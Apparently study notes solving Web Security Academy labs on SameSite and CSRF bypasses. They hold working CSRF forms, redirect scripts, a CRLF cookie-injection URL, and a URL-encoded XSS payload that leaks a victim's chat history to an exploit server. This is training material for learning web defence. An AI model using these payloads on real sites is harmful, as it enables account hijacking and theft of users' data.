 ## SameSite Lax bypass via method override

**Key:** `SameSite=Lax` by default (send cookie cross site only when in GET method or request resulted from a top-level navigation by the user, such as clicking on a link)

> **Solve:** override the method using "\_method=POST"
> `<script>
> document.location =
    "https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>`

## SameSite Strict bypass via client-side redirect

**Key:** `SameSite=Strict` (only requests coming from the same site is permitted) $\to$ find a client-side redirection $\to$ try to navigate to the changing email path

> **Solve:**
> `<script>
    document.location =
    "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=abc123@xyz.com%26submit=1";
</script>`


## SameSite Strict bypass via sibling domain

**Key:** In the live chat when you send a READY message to the server, it will respond with the chat history

> **Solve:**
> 1. Find a sibling domain (https://cms-0aea004b04f7961c80b94e540071009b.web-security-academy.net)
>    $\to$ see that this domain is vulnerable to a XSS attack
> 2. Make a GET request from the sibling domain to the /login endpoint with the URL encoded version of the [payload.html](\changeEmail.html)
> 3. Since the request is made from a sibling domain, the cookie is carried with the request $\to$ enabling to see the user's chat history
> 4. Deliver the script to the victim and wait for responses in the Access Log $\to$ URL decoded it to get the user's password
>    `<script>
    document.location =
    "https://cms-0aea004b04f7961c80b94e540071009b.web-security-academy.net/login?username=%65%79%4a%31%63%32%56%79%49%6a%6f%69%51%30%39%4f%54%6b%56%44%56%45%56%45%49%69%77%69%59%32%39%75%64%47%56%75%64%43%49%36%49%69%30%74%49%45%35%76%64%79%42%6a%61%47%46%30%64%47%6c%75%5a%79%42%33%61%58%52%6f%49%45%68%68%62%43%42%51%62%47%6c%75%5a%53%41%74%4c%53%4a%39%3c%73%63%72%69%70%74%3e%0a%6c%65%74%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%0a%20%20%22%77%73%73%3a%2f%2f%30%61%65%61%30%30%34%62%30%34%66%37%39%36%31%63%38%30%62%39%34%65%35%34%30%30%37%31%30%30%39%62%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%22%0a%29%3b%0a%0a%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%20%28%65%76%74%29%20%7b%0a%20%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%7d%3b%0a%0a%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%20%28%65%76%74%29%20%7b%0a%20%20%76%61%72%20%6d%65%73%73%61%67%65%20%3d%20%65%76%74%2e%64%61%74%61%3b%0a%20%20%66%65%74%63%68%28%0a%20%20%20%20%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%37%34%30%30%62%33%30%34%66%34%39%36%34%36%38%30%33%34%34%64%33%32%30%31%34%35%30%30%35%34%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6d%65%73%73%61%67%65%3d%22%20%2b%0a%20%20%20%20%20%20%62%74%6f%61%28%6d%65%73%73%61%67%65%29%0a%20%20%29%3b%0a%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=123"
</script>`


### CSRF with broken Referer validation
**Key:** the server check CSRF via the Referer header

> **Solve:**
> 1. Change the file value of the exploit server to contain the url of the victim website in a parameter like this: /exploit?id=0af90014040378d883df51c8007e002f.web-security-academy.net
> 2. Deliver the payload 

### LAB: SameSite Lax bypass via cookie refresh
There are no protection against CSRF attack (no CSRF token) and the authentication process refreshes cookie with SameSite Lax. 
If the user is logged in less than 2 minutes, the change email request is made easily.
If the user is logged in longer than 2 minutes, the authentication process is retaken. This would cause the change email request to be interupted. Therefore, to ensure that the change email request is made, we will need to retake the authentication process. 
But notice that, if you visit `/social-login`, this automatically initiates the full OAuth flow. If you still have a logged-in session with the OAuth server, this all happens without any interaction. We can trigger this by using this script:

    <form
        action="https://0aa300ad03ce303c82f01ae300e9001a.web-security-academy.net/my-account/change-email"
        method="post"
    >
        <input required type="hidden" name="email" value="evil@gmail.com" />
    </form>
    <p>click me</p> <!-- prevent popup blocker-->
    <script>
        document.onclick = function () {
            window.open(
            "https://0aa300ad03ce303c82f01ae300e9001a.web-security-academy.net/social-login"
            );
            setTimeout(function () {
            document.forms[0].submit();
            }, 5000);
        };
    </script>

### LAB: CSRF where token is tied to non-session cookie
2. Open a private/incognito browser window, log in to your other account, and send a fresh update email request into Burp Repeater.
3. Observe that if you swap the `csrfKey` cookie and `csrf` parameter from the first account to the second account, the request is accepted.
4. Back in the original browser, perform a search, send the resulting request to Burp Repeater, and observe that the search term gets reflected in the Set-Cookie header. Since the search function has no CSRF protection, you can use this to inject cookies into the victim user's browser.
5. Create a URL that uses this vulnerability to inject your `csrfKey` cookie into the victim's browser:
```
   /?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```
6. Add the following code to inject the cookie:
```
   <html>
   <body>
        <form action="https://0a5000d9041f8027801dda930000005d.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="ac&#64;g&#46;com" />
            <input type="hidden" name="csrf" value="123" />
            <input type="submit" value="Submit request" />
        </form>
        <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
   </body>
   </html>
```

